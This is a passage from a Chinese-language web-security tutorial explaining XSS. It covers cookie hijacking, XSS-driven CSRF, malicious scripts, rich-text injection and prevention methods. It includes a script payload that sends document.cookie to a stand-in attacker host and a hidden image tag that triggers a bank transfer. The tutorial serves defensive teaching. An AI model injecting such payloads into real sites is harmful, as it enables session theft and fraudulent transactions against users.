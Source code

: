       </div><pre class="xml hljs"><code class="html" style="word-break: break-word; white-space: initial;"><span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript"><span class="hljs-built_in">window</span>.open(<span class="hljs-string">"http://www.attackpage.com/record?secret="</span> + <span class="hljs-built_in">document</span>.cookie)</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span></code></pre>
<p>保存文章。很简单的代码，由于没有过滤脚本，那么其它用户登陆后，在看到这篇文章时就会自动将他们的cookie信息都发送到了攻击者的服务器。<br>攻击者可以在cookie（譬如jsessionid对应的session）有效期内拿它们冒充用户操作。</p>
<p>需要注意，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。</p>
<p><strong>2.会话伪造</strong></p>
<p>同样是评论漏洞的示例。</p>
<p>攻击者输入（举例比喻）</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<img src=http://www.bank.example/transfer?toBankId=hello&amp;amount=1000000 width='0' height='0'>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="xml hljs"><code class="html" style="word-break: break-word; white-space: initial;"><span class="hljs-tag">&lt;<span class="hljs-name">img</span> <span class="hljs-attr">src</span>=<span class="hljs-string">http://www.bank.example/transfer?toBankId</span>=<span class="hljs-string">hello&amp;amount</span>=<span class="hljs-string">1000000</span> <span class="hljs-attr">width</span>=<span class="hljs-string">'0'</span> <span class="hljs-attr">height</span>=<span class="hljs-string">'0'</span>&gt;</span></code></pre>
<p>然后，接下来发生的故事就和CSRF中提到的一致。这种情况就是基于XSS而开展的CSRF，也有人喜欢称之为XSRF</p>
<p>需要注意，这里并没有自己拿到cookie，而是CSRF中提到的利用浏览器的隐式验证机制来冒充用户。</p>
<p><strong>3.其它恶意代码执行</strong></p>
<p>其实上面的cookie劫持以及会话伪造都算是恶意代码执行，为了区别，这里就专指前端的流氓JS。</p>
<p>譬如前面的评论中的输入可以是：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="譬如市面上盛行的网页游戏弹窗等。
譬如干脆直接让这个页面卡死都可以。
譬如无限循环。" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="javascript hljs"><code class="js">譬如市面上盛行的网页游戏弹窗等。
譬如干脆直接让这个页面卡死都可以。
譬如无限循环。</code></pre>
<p>这里再提一点，上述都是从前端输入作为入口的，但实际上有一类的输入也不可忽视，那就是：<code>富文本攻击</code></p>
<p>它的特点就是： <strong>富文本中注入了脚本，并且前后端未进行过滤，导致直接输出到了页面中</strong></p>
<p>因为存在很多页面，都是将富文本内容展示到网页上的，没有进行过滤（哪怕时至今日，仍然有不少页面），这样只要富文本中有注入脚本，基本就中招了。。。</p>
<p><strong>结论：</strong></p>
<p><strong>只要最终能向页面输出可执行的脚本语句，那么就是有漏洞，XSS攻击都有可能发生。</strong></p>
<p>而且，基本上xss漏洞是很广泛的，虽然攻击类型很被动，也需要大量时间分析，但胜在大量的网站上都存在（特别是那种长期不更新的）</p>
<p>再提一点。上述的介绍更多的是从造成的后果来看，但其实如果从攻击手动来看的话可以分为几大类型：<code>反射型XSS攻击</code>（直接通过URL注入，而且很多浏览器都自带防御），<code>存储型XSS攻击</code>（存储到DB后读取时注入），还有一个<code>DOM-Based型</code>。</p>
<p>上述示例中都是存储型，具体更多内容网上已经有很详细的资料，这里不再继续深入，放一张图巩固下。</p>
<p><span class="img-wrap"><img data-src="/img/remote/1460000012693785?w=1031&amp;h=767" src="https://static.alili.tech/img/remote/1460000012693785?w=1031&amp;h=767" alt="" title="" style="cursor: pointer;"></span></p>
<p><strong>如何预防XSS：</strong></p>
<ul><li>输入过滤，不信任用户的任何输入，过滤其中的“&lt;”、“&gt;”、“/”等可能导致脚本注入的特殊字符，</li></ul>
<p>或者过滤“script”、“javascript”等脚本关键字，或者对输入数据的长度进行限制等等，<br>还得考虑攻击者使用十六进制编码来输入脚本的方式。</p>
<ul>
<li>输出进行编码，和输入过滤类似，不过是从输出上着手，数据输出到页面时，经过HtmlEncoder等工具编码，这样就不会存在直接输出可执行的脚本了</li>
<li>cookie设置<code>http-only</code>，这样用脚本就无法获取cookie了</li>
</ul>
<p>（这样只有浏览器向Web服务器发起请求的时才会带上cookie字段，避免了XSS攻击利用JavaScript的document.cookie获取cookie）</p>